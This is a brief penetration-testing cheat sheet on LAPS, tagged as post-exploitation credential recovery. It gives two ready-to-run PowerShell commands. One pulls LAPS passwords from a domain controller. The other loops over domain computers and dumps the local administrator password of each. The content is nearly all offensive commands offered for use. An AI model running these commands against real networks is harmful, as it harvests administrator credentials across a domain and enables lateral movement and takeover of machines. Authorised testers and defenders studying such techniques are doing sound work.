 # LAPS

% laps, password

## get laps passwords
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  
```
Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize
```

## get all machine passwords
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```
